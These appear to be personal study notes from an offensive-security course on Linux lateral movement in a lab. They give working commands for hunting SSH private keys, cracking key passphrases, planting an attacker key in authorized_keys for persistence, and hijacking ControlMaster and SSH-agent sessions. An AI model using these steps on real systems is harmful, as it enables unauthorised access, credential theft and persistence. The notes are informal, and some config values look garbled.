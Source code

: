 # Linux Lateral Movement

First,
we’ll leverage SSH and demonstrate how to steal keys and hijack open sessions. We will then
explore large-scale DevOps829 technologies and leverage both Ansible and Artifactory. Finally, we’ll
demonstrate how Kerberos-enabled Linux systems can create a bridge into Windows domains
and leverage this for lateral movement.


we need to configure our /etc/hosts file first with

```dotnetcli
controller: 192.168.120.40
• linuxvictim: 192.168.120.45
• dc01.corp1.com: 192.168.120.5
```

# lateral movement with ssh

ssh private kes are exellent opportunity for lateral movement.
The public key is stored in the ~/.ssh/authorized_keys file of the
server the user is connecting to. The private key is typically stored in the ~/.ssh/ directory on the
system the user is connecting from.ls

# ssh keys

ssh kes have permission set to 600

private keys are named as id_rsa by default 

we can use `find /home/ -name "id_rsa"`

if nothing comes up then there might be no keys with admin permission

```
└─$ find /home/ -name "id_rsa"
/home/kali/.ssh/id_rsa
```

It is always beneficial to look into the users home directory because the key could be stored with a different name there.

for example `svuser.key`

we can look at known_hosts

`cat ~/.ssh/known_hosts`

`tail .bash_history`

if they are connected to a controller server using svuser account then we can use host controller.

we can crack the passphrase through john the ripper

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./svuser.hash`

`ssh -i ./svuser.key svuser@controller`

# SSH Persistence

~/.ssh/authorized_keys - 

ssh-keygen

echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=
kali@kali" >> /home/linuxvictim/.ssh/authorized_keys

ssh linuxvictim@linuxvictim

### 14.1.2.1 Exercises
1. Generate a private keypair with a passphrase on your Kali VM. Try to crack the passphrase
using JTR.
2. Generate a private keypair on your Kali VM and insert your public key in the linuxvictim user’s
authorized_keys file on the linuxvictim host and then SSH to it.

# SSH Hijacking with ControlMaster

The term SSH hijacking refers to the use of an existing SSH connection to gain access to another
machine. Two of the most common methods of SSH hijacking use the ControlMaster836 feature
or the ssh-agent.837
ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network
connection. This functionality can be enabled for a given user by editing their local SSH
configuration file (~/.ssh/config).

```
Host *
ControlPath ~/.ssh/controlmaster/%r@%h:%p
ControlMaster auto
ControlPersist 10ma
```

These ControlMaster settings can also be placed in /etc/ssh/ssh_config to
configure ControlMaster at a system-wide level.

```
chmod 644 ~/.ssh/config
mkdir ~/.ssh/controlmaster

ls -al ~/.ssh/controlmaster/
```

# SSH Hijacking uing SSH Agent and SSH Agent forwarding

SSH-Agent is a utility that keeps track of a user’s private keys and allows them to be used without
having to repeat their passphrases on every connection.

For our SSH connections to work using SSH-Agent forwarding, we need to have our public key
installed on both the intermediate server and the destination server. In our case, the intermediate
server will be the controller machine and the destination server will be linuxvictim. We can copy
our key to both of them using the ssh-copy-id command from our Kali VM, specifying our public
key with the -i flag.

`ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller`

~/.ssh/config we need to put a forwardingAgent yes

eval `ssh-agent`

ssh-add

ssh offsec@controller

Note that in the attacker session, we’ll ssh to the intermediate box from a root
kali shell to make sure that we are not leveraging the key pair we have in the kali
home folder for authenticating with the intermediate server. In a real scenario,
the attacker connection to the intermediate server would be performed from a
different box.

ps aux | grep ssh

pstree -p offsec | grep ssh

cat /proc/16381/environ 

```
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l
3072 SHA256:6cyHlr9fISx9kcgR9+1crO1Hnc+nVw0mnmQ/Em5KSfo kali@kali (RSA)
root@controller:~# SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh
offsec@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
Last login: Thu Jul 30 11:14:26 2020 from 192.168.120.40
```

### 14.1.4.1 Exercises
1. Reproduce ControlMaster hijacking in the lab.
2. Reproduce SSH-Agent forwarding hijacking in the lab.

# Devops

There are many systems available that perform these sorts of functions. Puppet842 and Chef843
are both popular, but in this module we will take a closer look at Ansible,844 which we’ve frequently
encountered in penetration testing engagements.

# introduction to ansible

We can find the host inventory on the controller at /etc/ansible/hosts.

